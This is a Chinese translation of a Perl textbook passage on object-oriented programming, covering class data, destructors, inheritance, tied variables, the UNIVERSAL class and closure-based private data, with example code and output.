你已经看到了如何在对象中创建实例数据，但你也可以在*类变量*中存储数据。当你在类中将一个词法作用域变量声明为全局变量时，该变量对该类的所有对象都可用。


## 第18章 创建类和对象

在下一个示例中，我通过将总数存储在一个名为**$total**的类变量中来跟踪从特定类创建的对象总数（也就是说，该变量对于类的所有对象都将保持相同的值）。每次创建新变量时，我都像这样递增**$total**中的值：

```
package Cdata;

my $total;

sub new {
    $self = {};
    $total++;
    return bless $self;
}

sub gettotal
{
    return $total;
}

return 1;
```

请注意，我还添加了一个名为**gettotal**的方法来返回**$total**中的值；我使用**gettotal**方法在创建新对象时显示该类的新对象数量：

```
use Cdata;

$object1 = Cdata->new;
print "Current number of objects: ", $object1->gettotal, "\n";

$object2 = Cdata->new;
print "Current number of objects: ", $object2->gettotal, "\n";

$object3 = Cdata->new;
print "Current number of objects: ", $object3->gettotal, "\n";
```

> *当前对象数量：1*
> *当前对象数量：2*
> *当前对象数量：3*

如你所见，类数据可以协调一个类的所有对象，这使其在跨对象边界存储计数、初始化数据等方面非常有用。

## 创建析构函数

新手程序员问："我知道可以用构造函数来初始化对象，但当我不再需要对象时，如何进行清理？""那种情况下，"你说，"你可以使用析构函数。"

创建对象时使用构造函数，而析构函数用于在对象被销毁时执行代码（例如，当它们超出作用域或解释器正在关闭时）。你可以使用析构函数来执行清理操作，例如释放资源或通知依赖于你对象的其他对象当前对象正在被销毁。与构造函数不同，Perl 中析构函数有一个非常特定的名称：**DESTROY**。

> *提示：与 **BEGIN** 等其他隐式调用的函数一样，**DESTROY** 以全大写字母拼写。你应该让 Perl 调用 **DESTROY**，而绝不应该自己调用它。*

在本示例中，我实现了一个只打印消息的析构函数：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

sub DESTROY
{
    print "Object is being destroyed!\n"
}

return 1;
```

现在，当这个类的一个**对象**被销毁时，消息就会出现，例如在程序结束时：

```
use Class1;

my $object1 = Class1->new();

exit;
```

> *对象正在被销毁！*

你可以通过确保对象没有任何引用来销毁它，例如在本例中，我将**对象**的引用设置为**undef**：

```
use Class1;

my $object1 = Class1->new();

$object1 = undef;

print "Exiting now...";

exit;
```

> *对象正在被销毁！*
> *现在退出...*

你也可以显式调用**DESTROY**方法，但这样做通常是不良实践。

## 实现类继承

"天哪，"新手程序员说，"我对总是自定义所有类感到有点厌倦了。要重写的代码太多了。""我敢打赌，"你说，"最好是创建一个基类，尽可能包含你想要创建的所有类的共同特征。然后，你从该基类派生出所有独立的类，添加使它们各自不同的功能。"新手程序员说："什么意思？""使用继承，"你说。

面向对象编程最重要的方面之一就是继承，因为它允许你创建类库，按照自己的意愿定制这些类，同时继承其中已构建的所有功能。

正如我在本章开头讨论的，一个类（称为*派生*类）可以继承另一个类（称为*基*类）。派生类可以访问基类的所有方法和数据。（在 Perl 中，与其他面向对象语言不同，你不能将基类成员声明为 private 或 protected。）

在下一个示例中，我使用一个名为**Class1**的类作为派生类**Class2**的基类。特别注意**Class1**有一个名为**gettext**的方法，我将在**Class2**中使用它：

```
package Class1;

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

sub gettext {return "Hello!\n";}

return 1;
```

现在，看看继承了**Class1**的**Class2**。该类通过使用**use Class1**包含该类，并在名为**@ISA**的数组中列出**Class1**来继承**Class1**（你可以将其理解为**Class2**与**Class1**之间存在"is a"关系）：

```
package Class2;

use Class1;

@ISA = qw(Class1);

sub new
{
    my $self = Class1->new;
    bless($self);
    return $self;
}

return 1;
```

如果 Perl 在一个类中找不到某个方法或变量，它将按照列出的顺序检查**@ISA**数组中列出的类——也就是说，**@ISA**数组是 Perl 实现类继承的方式。

现在，我可以声明一个**Class2**的对象并使用它从**Class1**继承的方法**gettext**：

```
use Class2;

my $object1 = Class2->new();

print "The object says: ", $object1->gettext;
```

> *对象说：Hello!*

通过这种方式，**Class2**从**Class1**继承了**gettext**。

你可能在这个示例中注意到了一个重要的问题：**Class2**的构造函数调用**Class1**的构造函数来获取包含 gettext 方法的对象，并且像任何构造函数一样返回该对象。然而，这是一个问题，因为**Class1**的构造函数创建的是**Class1**的对象，而不是**Class2**的对象，所以我创建的对象**$object1**实际上是**Class1**的对象，而不是**Class2**的对象。现在我们实现了继承，我将重写**Class1**的构造函数，以便可以从**Class2**调用它并让它创建**Class2**的对象，而不是**Class1**的对象。详情请参阅下一个主题。

## 继承构造函数

> "嘿，"新手程序员说，"我遇到了一个继承的问题。当我创建一个派生类的对象时，该对象是基类类型的，而不是派生类类型的。""是的，"你说，"你需要学习继承构造函数。"

在前面的主题中，示例在**Class2**中继承了**Class1**，但**Class1**的构造函数（我从**Class2**中调用）返回的是**Class1**的对象，而不是**Class2**的对象，这是一个问题。为了让**Class1**的构造函数创建**Class2**（或任何以**Class1**为基类的其他类）的对象，我将使用**bless**函数的双参数形式重写该构造函数。

> *提示：如果你有一个对象的引用，如何确定该对象的类型？使用 **ref** 运算符。例如，如果你创建了一个 **Class1** 对象的引用，对该对象使用 **ref** 运算符将返回 "Class1"。详情请参阅第9章。*

传递给**bless**的第二个参数（如果存在）指定你想要将引用祝福到的类。在本例中，我将**Class2**作为第二个参数传递给**bless**，这意味着**bless**将返回一个**Class2**的对象。

你怎么知道应该传递哪个类给**bless**？回想一下，构造函数用作类方法，而传递给类方法的第一个参数是类名本身，这意味着你可以像获取任何其他传递的参数一样获取类名。

**Class1**的新的、可继承的构造函数形式如下：

```
package Class1;

sub new
{
    my $class = shift;
    my $self = {};
    bless($self, $class);
    return $self;
}

return 1;
```

使用这个构造函数意味着当我从**Class2**的构造函数调用它时，它将返回**Class2**的对象，而不是**Class1**的对象。**Class2**如下所示：

```
package Class2;

use Class1;

@ISA = qw(Class1);

sub new
{
    my $self = Class1->new;
    bless($self);
    return $self;
}

return 1;
```

现在，当我使用**Class2**类的构造函数创建对象时，该对象确实是**Class2**的，如下所示，我使用**ref**运算符来检查对象的类：

```
use Class2;

my $object1 = Class2->new();

print "The object's class is: ", ref $object1, "\n";
print "The object says: ", $object1->gettext;
```

> *对象的类是：Class2*
> *对象说：Hello!*

| 相关解决方案： | 所在页码： |
| :--- | ---: |
| 使用 **ref** 运算符确定引用的类型 | 404 |


## 继承实例数据

新手程序员可能会问：“为什么你通常使用哈希表来存储对象中的数据？” 你会回答：“因为这使得继承过程更容易。不过，如果你愿意，也可以使用其他数据类型。”

除了方法之外，当从一个基类派生类时，你也会继承该基类的数据。Perl 建议你将实例数据存储在基类中的哈希表里，就像这样：

```perl
package Class1;

sub new
{
    my $class = shift;
    my $self = {};
    $self->{NAME} = "Christine";
    bless $self, $class;
    return $self;
}

return 1;
```

Perl 建议使用哈希表，因为如果你使用数组来存储数据，派生类可能会为使用数组中的哪个索引而冲突，并且使用不同的键来分隔数据可能更容易。

> **提示：** 你可能会想知道为什么在 Perl 中使用像哈希表这样的数据项作为对象的基础。原因是 Perl 实际上存储对象的数据只是为了存储对象本身，因为这才是使对象独一无二的原因。因此，Perl 允许你对对象的实例数据进行“祝福”，并将由此创建的引用视为指向对象本身的引用。

例如，当你继承上面的 **Class1** 时，你可以通过在新的类 **Class2** 中以不同的键存储它来添加自己的数据，如下所示：

```perl
package Class2;

use Class1;

@ISA = qw(Class1);

sub new
{
    my $self = Class1->new();
    $self->{DATA} = 200;
    return $self;
}

return 1;
```

现在，你可以通过以下方式引用当前实例中的数据以及实例继承的数据：

```perl
use Class2;

my $object1 = Class2->new();

print $object1->{NAME}, " has \"$", $object1->{DATA}, "\n";
```

> Christine has $200

如果你愿意，也可以使用其他数据类型作为对象的基础，例如数组：

```perl
package Class1;

sub new
{
    my $class = shift;
    my $self = [];
    $self->[0] = 100;
    bless $self, $class;
    return $self;
}

return 1;
```

当你继承这个类时，你可以通过以下方式向数组添加其他数据：

```perl
package Class2;

use Class1;

@ISA = qw(Class1);

sub new
{
    my $self = Class1->new();
    $self->[1] = 200;
    return $self;
}

return 1;
```

现在，你可以通过数字索引引用派生类对象中的数据：

```perl
use Class2;

my $object1 = Class2->new();

print '$object1->[0] = ', $object1->[0], "\n";
print '$object1->[1] = ', $object1->[1], "\n";

$object1->[0] = 100
$object1->[1] = 200
```

你甚至可以使用标量来存储数据，但这种方法有一个明显的缺点：基于标量的对象只能存储一个实例数据项。

## 多重继承

新手程序员又回来了，说：“唉，现在我卡住了。我正在设计我的新水陆两栖车，如果我能从我的汽车类和我的船类*同时*继承，那就最好了。那么，我该选择哪一个呢？” 你会回答：“两个都选，因为 Perl 支持多重继承。问题解决了。”

在 Perl 中，派生类可以继承多个基类；你只需在 **@ISA** 数组中列出你想要继承的类即可。

举个例子，我将使用两个基类 **Class0** 和 **Class1**，并创建一个同时使用这两个类的派生类。**Class0** 有一个名为 **printhi** 的方法：

```perl
package Class0;

sub printhi {print "Hi\n";}

return 1;
```

另一方面，**Class1** 有一个名为 **printhello** 的方法：

```perl
package Class1;

sub printhello {print "Hello\n";}

return 1;
```

现在，我在一个新类 **Class2** 中继承 **Class0** 和 **Class1**：

```perl
package Class2;

use Class0;
use Class1;

@ISA = qw(Class0 Class1);

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

return 1;
```

当你创建派生类 **Class2** 的一个对象时，你可以同时使用 **Class0 的 printhi** 和 **Class1 的 printhello**，展示了多重继承的实际应用：

```perl
use Class2;

my $object1 = Class2->new();

$object1->printhi;
$object1->printhello;
```

*Hi*

*Hello*

## 第 19 章

## 面向对象编程

| 如果你需要以下内容的即时解决方案： | 请参阅页码： |
|---|---|
| 重写基类方法 | 813 |
| 访问被重写的基类方法 | 814 |
| 将标量与类绑定 | 816 |
| 将数组与类绑定 | 818 |
| 将哈希表与类绑定 | 820 |
| 使用 Perl **UNIVERSAL** 类 | 821 |
| 使用闭包创建私有数据成员 | 823 |
| 使用匿名子例程创建私有方法 | 826 |
| 创建方法的引用 | 829 |
| 将数据成员用作变量 | 830 |
| 使用包含其他对象的对象 | 831 |
| 委托类关系 | 833 |
| 重载二元运算符 | 836 |
| 重载一元运算符 | 839 |

## 深入探讨

在本章中，我将详细阐述 Perl 面向对象编程（OOP）中一些更高级的主题。其中一些材料扩展了上一章的主题，而有些则是全新的内容。接下来会有大量的材料，所以让我们先从一个概览开始。

## 将数据类型与类绑定

Perl OOP 最重要的方面之一是你能够将基本数据类型（标量、数组、哈希表，甚至在某种程度上还有文件句柄）与类*绑定*。例如，在本章中，我将创建一个名为 **Doubler** 的类，你可以将一个标量与之绑定。这个类会自动将绑定标量中的值加倍。其实际效果如下所示；你将一个名为 **$data** 的标量与 **Doubler** 绑定：

```perl
use Doubler;

tie $data, 'Doubler', $$;
```

现在，你可以在 **$data** 中放入一个值——比如 **5**——当你查看该值时，它会自动加倍为 **10**：

```perl
use Doubler;

tie $data, 'Doubler', $$;

$data = 5;

print "\$data evaluates to $data";

$data evaluates to 10
```

如何实现像 **Doubler** 这样的类？你需要在类中实现特定的方法；例如，要绑定一个标量，你需要实现 **TIESCALAR**、**FETCH**、**DESTROY** 和 **STORE** 方法。你使用 **TIESCALAR** 将标量连接到类，**FETCH** 返回该标量中的值，**DESTROY** 释放绑定的对象，**STORE** 在标量中存储新值。

你可以使用其他方法来绑定数组和哈希表；所有细节请参阅即时解决方案部分。如你所见，将数据类型与类绑定可以成为一项强大的技术。例如，你可以自动将存储的温度从摄氏度转换为华氏度，或者检查存储在数组中的值，如果它们超过某个限制，则将其设置为允许的最大值。

> *提示：事实上，我们已经将一个数据库绑定到了一个哈希表。请参阅第 16 章中的“写入数据库文件”和“读取数据库文件”主题。*

## 面向对象编程的私有性

另一个许多程序员希望 Perl 能够解决的问题是 OOP 的私有性。在许多语言中，你可以将类的方法和数据成员设为*私有*，这意味着它们不能在类外部被访问。事实上，许多程序员认为这种私有性是面向对象编程的一个主要部分，因为 OOP 实际上就是关于将数据和例程隐藏起来，远离程序的其他部分，以简化你的代码。

在 Perl 中，你可以将数据和方法放入类中，但这并不能保证它们的私有性；程序其余部分的任何代码都可以访问这些数据和方法，许多程序员认为这是一个问题。

为了保持私有性，你能做的最好的事情是使用我们在上一章首次看到的惯例（参见第 18 章中的“将实例方法和变量标记为私有”主题）：你在数据成员和方法前加上一个下划线，就像这段使用内部方法 _add 的代码：

```perl
package Class1;

sub new
{
    my $type = {};
    $type->{OPERAND1} = 2;
    $type->{OPERAND2} = 2;
    bless($type);
    return $type;
}

sub sum
{
    my $self = shift;
    my $temp = _add ($self->{OPERAND1}, $self->{OPERAND2});
    return $temp;
}
```


## 重载运算符

`sub _add {return shift() + shift();}`

`return 1;`

在对程序员友好的环境中，像这样依赖约定工作的做法是没问题的，而Perl假设环境总是对程序员友好的。Perl的态度是，任何试图通过挖掘你的私有数据和方法来超越适当界限的程序员，都是自讨苦吃。这个原则在其适用范围内是不错的，但有时访问类的私有方法和数据可能构成真正的安全风险，或者会导致共享文件处于不稳定状态——如果你在处理重要的数据库文件，这可能会成为一个严重的问题。

和Perl本身一样，我绝对不是大量编程保密的倡导者，但有时建议将类的私有部分真正保持私有。你会发现本章中有许多技巧可以帮助你做到这一点。这里，你将看到如何使用闭包创建私有数据成员，以及如何使用匿名子程序创建私有方法。本章中的技巧对我来说似乎恰到好处；它们不会让在你的类中引入大量保密性变得容易，但如果你需要足够频繁地使用它们，以至于你不介意额外的工作，它们就在那里可供使用。

在本章中，我们还将探讨*重载*一元和二元运算符的过程，以使这些运算符能够与你创建的对象一起工作。（一元运算符接受一个操作数，例如++，而二元运算符接受两个操作数，例如+。）

不要将面向对象编程中的*重载*与*重写*混淆。当你重写一个基类的方法时，你是用新方法替换它。当你重载一个运算符时，你是使该运算符能够与不同类型的对象一起工作。

例如，如果你有一个名为**Datum**的类，你可以重载它以使用+和-运算符，这样你就可以像这样在**Datum**类的对象上使用这些运算符：

```
$object1 = Datum->new(1);
$object2 = Datum->new(2);
$object3 = $object1 + $object2;
$object4 = $object1 + 3;
$object5 = $object1 - $object2;
$object6 = 7 - $object2;
```

在其他面向对象编程语言中，你可以重载方法以及运算符。重载一个方法通常意味着你可以用不同数量的参数和不同类型的参数来调用它，编译器将根据参数列表中元素的数量和类型来确定你想使用重载方法的哪个版本。然而，Perl对参数列表的处理非常灵活，通常你不需要使用方法重载（Perl不支持这一点）。例如，这个函数**addem**可以处理不同数量的参数，将它们全部相加并返回总和：

```
print "1 + 2 + 3 = ", addem(1, 2, 3), "\n";
print "1 + 2 + 3 + 4 = ", addem(1, 2, 3, 4), "\n";

sub addem
{
    my $sum = 0;
    foreach $value (@_) {
        $sum += $value;
    }
    return $sum;
}
```

*1 + 2 + 3 = 6*
*1 + 2 + 3 + 4 = 10*

在某些其他语言中，你将不得不重载**addem**才能获得相同的功能。

此外，Perl不像其他语言那样是强类型的，所以你通常不需要重载一个方法来让它处理，例如，单精度数以及双精度数。在Perl中，你可以对两者使用相同的方法和相同（无类型的）参数列表。

如果你确实需要确定你正在处理的数据类型，通常可以通过使用**wantarray**等函数来检查你的代码是在标量上下文还是列表上下文中运行，以及使用**length**（它返回用于存储一个左值的字节数，从而给出其存储精度的概念）来获得所需的结果。（参见第7章中的“使用**wantarray**检查所需的返回上下文”主题和第11章中的“**length**获取字符串长度”主题，该主题也讨论了在数字数据类型上使用**length**。你可以通过检查分配给它的字节数来猜测Perl用于标量的C数据类型。）你也可以使用**isa**方法找到对象的类；参见本章后面的“使用Perl **UNIVERSAL**类”主题。并且，如果你将一个指向该对象的引用传递给**ref**函数，你可以获得对象的类；参见本章中的“重载二元运算符”主题，其中有一个例子，我重载了名为**add**和**subtract**的方法，使用**ref**函数同时处理对象和标量。如果你真的下定决心，你甚至可以检查数据的内部Perl格式；例如，参见第2章中的“它是字符串还是数字？”主题。

结论是，在Perl中，你可以使用**overload**模块重载运算符，但它没有任何正式的面向对象编程机制来重载方法。然而，由于你在调用方法时具有的灵活性，你通常不需要重载它们。

## 其他面向对象编程主题

我们还将在本章中看到相当多的其他面向对象编程主题，例如如何重写基类的方法，Perl **UNIVERSAL**类中有什么（Perl中的所有类都继承该类），如何创建包含其他对象的对象，以及如何创建委托对象（当使用直接继承不太合适时可以使用）。例如，假设你想从Perl **NDBM_File**类派生创建你自己的数据库类。**NDBM_File**类在实例化时会创建许多子对象，因此没有简单的方法继承它，但是，使用委托，你仍然可以创建一个看起来完全像是继承了**NDBM_File**类的类。

我们将在“即时解决方案”中找到更多细节，所以让我们立即开始。

### 即时解决方案

### 重写基类方法

“我正在使用那个讨厌的Johnson编写的类，”新手程序员说，“但是，当然，它全都是错的。一半的方法做不了我想让它们做的事。”“没关系，”你说，“你可以重写那些方法，用你想要的方法替换它们。”新手程序员明显高兴起来，说：“这会教训那个讨厌的Johnson。”

有时，你可能想重新定义你从基类继承的方法，这被称为*重写*方法。你可以将重写视为重新定义。例如，一个名为**car**的类可能派生自一个名为**vehicle**的类，并且**car**可能会重写**vehicle**的一个名为**gettype**的方法，以返回**sedan**而不是像**vehicle**这样的默认值。

你只需重新定义方法就可以重写它。如果你想引用原始的被重写的方法，你可以使用**SUPER**类（在面向对象编程中，超类与基类相同）。

让我们看一个例子；这里，我将使用一个名为**Class1**的类作为基类，它包含一个名为**printem**的方法。该方法打印"**Hello**"：

```
package Class1;

sub printem
{
    print "Hello";
}

return 1;
```

接下来，我将在一个继承**Class1**的新类**Class2**中重写**printem**。**Class2**中的新**printem**打印"**Hi**"，而不是"**Hello**"：

```
package Class2;

use Class1;

@ISA = qw(Class1);

sub new
{
    my $self = {};
    bless($self);
    return $self;
}

sub printem
{
    print "Hi";
}

return 1;
```

现在，我可以如下使用**Class2**。请注意，当我调用**printem**时，被重写的方法被调用，因此代码打印"**Hi**"（即使用**Class2**的**printem**版本），而不是"Hello"（那是**Class1**的**printem**版本会显示的内容）：

```
use Class2;

my $object1 = Class2->new();

$object1->printem;
```

Hi

### 访问被重写的基类方法

> “该死，”新手程序员说，“我在派生类中重写了一个基类的方法，但实际上我也想调用被重写的方法，以便基类可以执行正确的初始化。我还能那样做吗？”“是的，”你说，“如果你使用**SUPER**类的话。”

考虑这个例子；与前面的主题一样，我将使用一个名为**Class1**的类，它有一个名为**printem**的方法，打印"Hello"：

```
package Class1;

sub printem
```


## 第19章 面向对象编程

### 将标量与类关联起来

大老板出现并说道：“我们要派你去海外。” “去那儿干什么？”你惊讶地问道。大老板说：“我们要开拓一些新的欧洲市场，打算在那里销售你的软件。不过，有一个小问题。他们那边输入的是摄氏温度，不是华氏温度。” “嗯，”你说，“一个优雅的解决方案是将我代码中的 **$temperature** 变量关联到一个能自动进行转换的类上。” “很好，”大老板说，“船15分钟后出发；确保你的代码准备好可以发布了。”

Perl 允许你将变量 *关联* 到一个类，这样存储在这些变量中的值就会通过自动调用关联类中的方法来设置。通过将标量关联到一个类，你可以自定义存储在该标量中的值。

举个例子，我将创建一个名为 **Doubler** 的类，并将其关联到一个标量，使得当你读取该标量中的值时，你会得到其实际存储值的两倍。

要将标量 **关联** 到一个类，该类应实现这些方法（名为 ***THIS*** 的参数是当前关联对象的引用）：

```
TIESCALAR CLASS, LIST    将 LIST 给出的值关联到类
FETCH THIS               获取标量的值
STORE THIS, VALUE        将值存储到标量中
DESTROY THIS             标量正在被销毁
```

我现在将实现 **Doubler** 类。**TIESCALAR** 方法如下所示（注意我这里所做的只是将传递的标量作为数据存储在 **Doubler** 类中）：

```
package Doubler;

sub TIESCALAR
{
    my $class = shift;
    $data = shift;
    return bless \$data, $class;
}
```

当调用 **FETCH** 方法时，**Doubler** 类应返回标量的值。**FETCH** 方法如下所示。这里，我返回存储值的两倍，因为这就是 **Doubler** 类的功能：

```
sub FETCH
{
    my $self = shift;
    return 2 * $data;
}
```

当调用 **STORE** 方法时，会传递一个新值来存储。以下 **STORE** 方法将传递的标量存储在对象中并返回该值的两倍：

```
sub STORE
{
    my $self = shift;
    $data = shift;
    return 2 * $data;
}
```

**DESTROY** 方法如下所示，在标量被销毁时调用；在这种情况下，我不会在类析构函数中放置任何内容：

```
sub DESTROY { }

return 1;
```

现在，你可以使用 Perl 的 **tie** 函数将标量关联到 **Doubler** 类，该函数传递要关联的标量、要关联到的类以及当前进程 ID。（如果你在 Windows 上运行并想知道你的进程 ID 可能是什么，不用担心；只需使用 **$$** 中的值，如下面的代码所示，它就能正常工作。）

将标量关联到 **Doubler** 后，我将 **5** 存储在该标量中（注意，然而，当我读取标量的值时，我得到的是 **10**）：

```
use Doubler;

tie $data, 'Doubler', $$;

$data = 5;

print "\$data evaluates to $data";
```

```
$data evaluates to 10
```

如你所见，**Doubler** 类正在执行它的功能——自动将你关联到它的标量值加倍。

> **提示：** 当你完成使用一个关联的数据项时，使用 **untie** 函数来解除关联。

### 将数组与类关联起来

“将标量关联到类是挺好的，”新手程序员说，“但我的数据存储在数组里。我能以某种方式将数组关联到一个类，这样我就可以自动操作数组中的值吗？” “是的，你可以，”你说，“但这稍微复杂一点。最好拉把椅子过来，我们慢慢讲。”

除了关联标量（见前面的主题），你还可以通过在该类中实现以下方法来将数组关联到一个类（名为 **THIS** 的参数是当前关联对象的引用）：

| 方法 | 描述 |
| --- | --- |
| TIEARRAY CLASS, LIST | 将 LIST 给出的数组关联到类 |
| FETCH THIS, INDEX | 获取数组索引处的值 |
| STORE THIS, INDEX, VALUE | 存储数组索引处的值 |
| DESTROY THIS | 数组正在被销毁 |
| FETCHSIZE | 获取数组的大小 |
| STORESIZE | 设置数组的大小 |

在这个例子中，我创建一个类 **Darray**，它在读取数组值时将每个数组值加倍。首先要创建的方法是类方法 **TIEARRAY**，它将数组存储为类的数据，对其进行祝福，并返回给调用者：

```
package Darray;

sub TIEARRAY {
    my $class = shift;
    @array = @_;
    return bless \@array, $class;
}
```

**FETCH** 方法使用数组的索引调用，并应返回数组中相应的元素。在这种情况下，我将返回该元素值的两倍，因为这就是 **Darray** 的功能：

```
sub FETCH
{
    my $self = shift;
    my $index = shift;
    return 2 * $array[$index];
}
```

**FETCHSIZE** 方法返回存储数组的大小，如下所示：

```
sub FETCHSIZE
{
    return ($#array + 1);
}
```

**STORESIZE** 方法被传递数组的新大小，我可以这样实现：

```
sub STORESIZE
{
    $#array = shift;
}
```

在 **STORE** 方法中，你会被传递一个要存储在数组特定索引处的新值，我这样实现（注意这个方法返回该元素的新值）：

```
sub STORE
{
    my $self = shift;
    my $index = shift;
    return 2 * $array[$index];
}
```

我还将实现类的析构函数 **DESTROY**，但不包含任何代码：

```
sub DESTROY { }

return 1;
```

就这样。我按如下方式将 **Darray** 类关联到一个数组（注意当我从数组读取值时，我得到的是我存储值的两倍）：

```
use Darray;

tie @array, 'Darray', (1, 2, 3);

print join (", ", @array);
```

```
2, 4, 6
```

如你所见，**Darray** 类按预期工作。

> **提示：** 当你完成使用一个关联的数据项时，使用 **untie** 函数来解除关联。

### 将哈希与类关联起来

新手程序员出现并说道：“我知道我可以将标量关联到类，将数组关联到类，但是关于……” “是的，”你说，“你也可以将哈希关联到一个类。” “哇，”新手程序员说，“你真是懂我。”

要将哈希关联到一个类，你需要在该类中实现这些方法（名为 **THIS** 的参数是当前关联对象的引用）：

| 方法 | 描述 |
|--------|-------------|
| TIEHASH CLASS, LIST | 将 LIST 中的键/值对关联到类 |
| FETCH THIS, KEY | 获取与键 KEY 关联的值 |
| STORE THIS, KEY, VALUE | 存储键/值对 |
| DELETE THIS, KEY | 删除由键 KEY 指定的元素 |
| CLEAR THIS | 清空哈希 |
| EXISTS THIS, KEY | 检查元素是否存在 |
| FIRSTKEY THIS | 返回第一个键 |
| NEXTKEY THIS, LASTKEY | 返回下一个元素（直到 LASTKEY） |
| DESTROY THIS | 哈希被销毁时调用 |

你实现这些方法的方式与关联数组类似（见前面的主题）；例如，当调用 **STORE** 时，它会接收当前对象的引用和要添加到哈希中的键/值对。

我们在第17章中看到过一个将哈希关联到类的例子，当时我这样创建了一个 NDBM 数据库文件：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR|O_CREAT|O_EXCL, 0644;

$hash{drink} = 'root beer';
$hash{meat} = turkey;
$hash{dessert} = 'blueberry pie';

untie %hash;
```

前面的代码创建了文件 data.pag（默认文件扩展名（如果存在的话）会因你使用的数据库类而异），其中包含了我创建的哈希，并使用 **untie** 函数解除了哈希的关联以关闭文件。你可以这样读回数据：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR, 0644;
```

现在，我可以自由地打印哈希中的值，并将其解绑以关闭文件：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR, 0644;

while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}

untie %hash;
```

dessert => blueberry pie
drink => root beer
meat => turkey

*提示：* 当你处理完一个绑定的数据项时，请使用 **untie** 函数来解绑它。

| 相关解决方案 | 所在页码 |
| --- | --- |
| 编写数据库文件 | 723 |

## 使用 Perl UNIVERSAL 类

> “嗯，”初学者程序员说，“那个讨厌的约翰逊给我传了一个对象，我不太信任它。我怎么才能知道它是哪个类的对象呢？”“很简单，”你说，“使用 UNIVERSAL 类的 **isa** 方法。”

在 Perl 中，所有类都共享一个基类：**UNIVERSAL**（这个类会被隐式地添加到任何 **@ISA** 数组的末尾）。从 5.004 版本开始，Perl 的 **UNIVERSAL** 类已经包含了一些方法：**isa**、**can** 和 **VERSION**。

**isa** 方法像这样检查一个对象或类的 **@ISA** 数组，下面我确定 **$object1** 的类：

```
use Math::Complex;

$operand1 = Math::Complex->new(1, 2);

if ($operand1->isa("Math::Complex")) {print "\$operand1 is
    an object of class Math::Complex.";}
```

*$operand1 是 Math::Complex 类的一个对象。*

**can** 方法检查其文本参数是否是一个类中可调用方法的名称，如果是，则返回对该方法的引用。这个例子展示了如何使用 **can**；在这个例子中，我检查 **Class1** 类是否有一个名为 **printem** 的方法，如果有，则调用它：

```
$object = Class1->new;

$printemcall = $object->can('printem');
&($printemcall) if $printemcall;
```

```
package Class1;

sub new
{
    my $self = {};
    bless $self;
    return $self;
}

sub printem
{
    print "Hello\n";
}
```

Hello

**VERSION** 方法检查一个类或对象是否定义了一个名为 **$VERSION** 的包全局变量，该变量保存一个版本号。你可以像这样定义版本号：

```
package Class1;

$VERSION = 1.01;

sub new
{
    my $self = {};
    bless $self;
    return $self;
}

return 1;
```

你可以像这样使用对象的 **VERSION** 方法来检查其版本：

```
use Class1;

$object1 = Class1->new;

print $object1->VERSION;

1.01
```

## 使用闭包创建私有数据成员

“好吧，”初学者程序员说，“我还有另一个问题。”“又是那个讨厌的约翰逊？”你问。“没错，”初学者程序员说，“那个讨厌的约翰逊正在瞎搞我对象里的私有数据。我能不能让它变得真正私有？”你说：“是的，你可以。你怎么才能通过向子程序 B 传递数据来初始化子程序 A，从而让数据从那时起就可以在子程序 A 中使用呢？”“那是什么？”初学者程序员问。“闭包，”你说，“你使用闭包。”

如果你将对象的数据存储在一个实例变量中（例如对象核心匿名哈希中的一个元素），那么该数据将对程序中任何可以访问该对象的部分都可用。你可以将数据存储在类包中的全局变量中（将它们设为全局是为了在方法调用返回时不被释放，并且类中的所有方法都可以访问它们）。但是，类变量是在该类的所有对象之间共享的（见第 18 章），所以这不是存储私有实例数据的可接受方式。

然而，你可以用另一种方式使你的实例数据私有化：你可以使用闭包。你可能还记得第 9 章的内容，闭包是一个匿名子程序，它可以访问 Perl 编译该子程序时在其作用域内的词法变量，并且即使该子程序稍后被调用，它也会让这些变量保持在作用域内。使用闭包，你可以以一种使数据从对象外部无法访问的方式来存储你的数据。

在这个例子中，我将一个类的数据存储在一个闭包中，并实际上将这个闭包 bless 并作为对象的引用返回。我首先将数据存储在一个哈希中，这个哈希是 **new** 构造函数内部的。（这个哈希无法被外部代码访问，因为这次我不会 bless 并返回对该数据哈希的引用作为对象的引用。）在这里，我将使用键 **NAME** 在数据哈希中存储一个默认名称，**Christine**：

```
package Class1;

sub new
{
    my $data = {};
    $data->{NAME} = 'Christine';
```

现在，我在 **new** 子程序内部将闭包本身创建为一个匿名子程序。因为我将使用这个闭包来管理对象中的数据，所以我会在数据哈希中存储一个名称——如果传递了一个名称的话——并从闭包中返回存储的名称，如下所示：

```
package Class1;

sub new
{
    my $data = {};
    $data->{NAME} = 'Christine';
    my $closure = sub {
        shift;

        if (@_) {
            $data->{NAME} = shift;
        }

        return $data->{NAME};
    };
```

现在，我必须从 **new** 中 bless 并返回一些东西作为新创建对象的引用，所以我 bless 并返回这个闭包：

```
package Class1;

sub new
{
    my $data = {};
    $data->{NAME} = 'Christine';
    my $closure = sub {
        shift;

        if (@_) {
            $data->{NAME} = shift;
        }

        return $data->{NAME};
    };

    bless $closure;
    return $closure;
}
```

### 即时解决方案

那么，你如何访问这个类对象中的数据呢？你不能使用内部数据哈希，因为构造函数没有返回对该哈希的引用。相反，你必须使用闭包，这就是为什么我设置那个闭包来返回存储在数据哈希中的名称。为了使闭包可访问，你可以直接调用从 **new** 构造函数返回的对象引用，但为了方便起见，我将向这个类添加一个名为 **name** 的方法，该方法将调用闭包本身。如果你用一个新名称调用 **name**，对象将存储该名称。无论你是否向 **name** 传递参数，它都会返回当前存储的名称。

**name** 方法只是调用闭包本身。回想一下，传递给像 **name** 这样的实例方法的第一个参数只是对当前对象的引用，而根据我的设置，那正好是闭包本身，所以我可以在 **name** 中这样调用闭包：

```
sub name
{
    &{$_[0]};
}

return 1;
```

就是这样；现在，你可以使用 **name** 方法来获取或设置这个类对象中存储的名称，但无法直接访问该名称，因为它现在是对象的私有属性。

在下一个例子中，我将让这个 **new** 类发挥作用：

```
use Class1;

$object = Class1->new;
$object->name('Nancy');

print "The name is: ", $object->name;
```

> *The name is: Nancy*

| 相关解决方案 | 所在页码 |
|---|---|
| 创建一个跨对象共享的类变量 | 795 |

## 第 19 章 面向对象编程

